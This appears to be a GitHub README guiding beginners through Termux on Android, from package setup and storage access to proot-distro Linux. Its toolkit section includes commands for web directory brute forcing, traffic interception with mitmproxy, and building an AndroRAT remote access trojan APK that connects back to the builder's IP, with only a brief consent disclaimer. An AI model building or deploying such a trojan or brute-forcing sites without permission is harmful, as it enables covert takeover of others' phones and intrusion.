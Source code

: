 # 📱🪲🐊📟🍁 About Termux – Complete Guide for Beginners & Power Users

> This repository is a complete, beginner-friendly guide to using **Termux** on Android. Learn how to set it up, install powerful tools, and use Linux like a pro – all from your phone, with or without root access.

---

## 📚 Table of Contents

1. [🍁 What is Termux?](#-what-is-termux)
   
3. [🔧 Initial Setup](#-initial-setup)
   
5. [🛠️ Essential Tools](#-essential-tools)
   
7. [📂 Storage Access](#📂-Storage-Access)
   
9. [💻 Linux in Termux (Proot-Distro)](#-linux-in-termux-(proot-distro))
    
11. [🧰 Toolkits & Use Cases](#-toolkits--use-cases)
    
13. [⚠️ Troubleshooting & Tips](#-troubleshooting--tips)
    
15. [🧠 Contribute](#-contribute)

---

## 🍁 What is Termux?

**Termux** is an Android terminal emulator and Linux environment app that doesn’t require rooting. You can:

- Run Linux packages and shells
- Install programming environments (Python, Node, etc.)
- Run SSH servers, Git, Kali, Ubuntu, and more!

🔗 [Official Termux F-Droid Page](https://f-droid.org/packages/com.termux/)

---

## 🔧 Initial Setup

1. ✅ **Install Termux from F-Droid** *(Do NOT use Play Store version)*

➤ [https://f-droid.org/packages/com.termux/](https://f-droid.org/packages/com.termux/)

2. ✅ **Update,Upgrade and install basic Essentials**
```
termux-setup-storage
pkg update && pkg upgrade -y
pkg install wget -y
pkg install git -y
pkg install tur-repo -y
pkg install x11-repo -y
pkg install termux-x11-nightly -y
pkg install pulseaudio -y
pkg install curl -y
```

4. ✅ Fix Mirrors (if slow)
```
termux-change-repo
```

---

🍁 Essential Tools

python	
```
pkg install python	
```

proot-distro (Install full Linux distributions)
```
pkg install proot-distro	
```

openssh	(SSH server/client)
```
pkg install openssh	
```

termux-api (Access Android functions)
```
pkg install termux-api	
```

---

📂 Storage Access

To access your internal/shared storage (DCIM, Downloads, etc.):
```
termux-setup-storage
```

A popup will request permission. Tap Allow.

Access shared storage via:
```
cd /storage/emulated/0/
```

---

💻 Linux in Termux (Proot-Distro)

Want full Linux inside Termux? Use proot-distro.

✅ Install Ubuntu / Kali / Fedora:
```
proot-distro install ubuntu
proot-distro login ubuntu
```

Now you’re inside Ubuntu. You can install tools with apt, set up xfce, mitmproxy, dirsearch, and more.


---

🧰 Toolkits & Use Cases

🔎 Dirsearch (Web Directory Brute Force)
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip install -r requirements.txt
python3 dirsearch.py -u https://example.com -e php,html
```

---

🔍 mitmproxy (HTTP/HTTPS Sniffer)
```
pip install mitmproxy
mitmproxy --listen-port 8080
```

Use to inspect mobile traffic. For advanced use, install cert on second device, set proxy, and run HTTP server.


---

🐍 AndroRAT (Educational RAT)
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python3 androRAT.py --build -i <your_ip> -p 8000 -o rat.apk
```

⚠️ For educational use only. Never use without consent.


---

⚠️ Troubleshooting & Tips

Issue	Fix Command

Network tools not working	
```
pkg install net-tools
```

Package errors or 403s	
```
termux-change-repo
```

Storage access denied	
```
termux-setup-storage
```
and restart Termux

Slow repo or package install
Use mirrors via 
```
termux-change-repo
```

Permission denied errors	
Ensure files have execution permission: 
chmod +x tool_name



---

🧠 Contribute

Have useful commands or scripts?
PRs and issues are welcome!


---

📢 Stay Updated

🔗 Termux Wiki

🔗 r/termux subreddit

🔗 Awesome-Termux List



---

> Made with 💻❤️ by @mikey-7x – Keep hacking, keep learning!



---



